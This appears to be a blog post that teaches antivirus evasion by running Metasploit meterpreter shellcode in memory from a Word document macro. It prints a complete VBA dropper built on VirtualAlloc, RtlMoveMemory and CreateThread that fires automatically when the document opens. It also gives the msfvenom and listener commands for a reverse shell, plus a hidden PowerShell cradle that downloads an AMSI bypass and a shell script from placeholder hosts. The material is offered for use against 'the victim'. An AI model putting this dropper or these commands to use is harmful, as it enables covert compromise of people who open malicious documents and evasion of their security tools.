 ```yaml
---
layout: post
title: Running ShellCode in Memory | AV Evasion – VBA Version 

---
```

![](/images/2021-08-13-VBAShell/0.png)

If you try to download an executable to get a reverse shell on a system, it most likely will be detected and blocked by either host-based network monitoring system or AV/EDR sweeps it off, so this post we will discuss how to be stealthier and execute shell code in memory.

For the sake of this example, I am going to use a word macro as a dropper to do this.

Although it may seem complicated, all we need to do is:

***1) Use something to allocate unmanaged memory***

***2) Copy our shell code into our allocated memory from step 1***

***3) Create execution thread***

I have gone about doing these two ways:

1) Using VBA

2) Using Powershell

In this post, we will discuss how we can get this to work with VBA:

For this, we will use win32 APIs from kernal32.dll:

***1) VirtualAlloc***

***2) RtlMemory***

***3) CreateThread***



Let’s just be optimistic and generate our shellcode using msfvenom:



```
msfvenom -p windows/meterpreter/reverse_http LHOST=x.x.x.x LPORT=443 EXITFUNC=thread -f vbapplication

```


**Couple of things to note here:**

a)	We are using 32bit arc for the meterpreter shell since MS word by default runs on 32-bit Arc

b)	We are using “thread” as exit func instead of “process” to avoid our MS word getting terminated when shell exits


***Read the MSDN docs to understand how the function used works:***

1)	[VirtualAlloc]( https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
2)	[rtlmovememory](https://docs.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)
3)	[Create Thread]( https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread )


## The whole VBS looks like this:

```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
Dim buf As Variant
Dim addr As LongPtr
Dim counter As Long
Dim data As Long
Dim res As Long

buf = Array(insert shell code here)

addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

For counter = LBound(buf) To UBound(buf)
data = buf(counter)
res = RtlMoveMemory(addr + counter, data, 1)
Next counter

res = CreateThread(0, 0, addr, 0, 0, 0)

End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub

```



![](/images/2021-08-13-VBAShell/1.png)

Once you have this, save the word document in macro format such as .doc or .docm

Set up the listener:

```
set payload windows/meterpreter/reverse_http
set LHOST x.x.x.x
set LPORT 443
set EXITFUNC thread
set set ReverseListenerBindAddress <internal IP>
exploit
```

Once, the victim opens the macro document the shell code runs in memory and we get a reverse shell:



![](/images/2021-08-13-VBAShell/2.png)


![](/images/2021-08-13-VBAShell/3.png)


Now this is a low-profile technique, but there are some issues with this:

***1)	The shell code present in word document which is saved on hard drive might get detected by the AV***

***2)	Whenever the word file is closed the session get terminated since the SPAWNED process is a child of word file.***

## How can we improve these and make things more efficient?

I will write up on this in a different post, but I will give the folks reading this post a chance to try it for themselves, so here are some clues:

***1)	Use Powershell for this, Powershell cannot interact with win32 API directly, so use C# with the help of .NET framework (DllImportAttribute class).***

***2)	Use P/Invoke APIs contained in the System.Runtime.InteropServices and System namespaces (changing C to C# datatype)***

Ref: [P/Invoke](www.pinvoke.net )

***3)	Now use Add-Type in PowerShell to compile and create object***

Reference: [Add-Type Example](http://adamringenberg.com/powershell2/Add-Type/ )

***4)	Use .NET Copy method to copy the shellcode into memory***

***5)	Finally, before running the shell code in memory make sure to use an AMSI bypass to run first (use PowerShell download cradle)***

Something like this:

```
Sub ShellCodeRunner() 

Dim str As String
  
str = "powershell IEX (New-Object Net.WebClient).DownloadString('http://X.X.X.X/AmsiBypass.ps1'); IEX (New-Object Net.WebClient).DownloadString('http://X.X.X.X/Shell.ps1')"
Shell str, vbHide End Sub
```

You just need to craft the content of shell.ps1 as your homework :)






















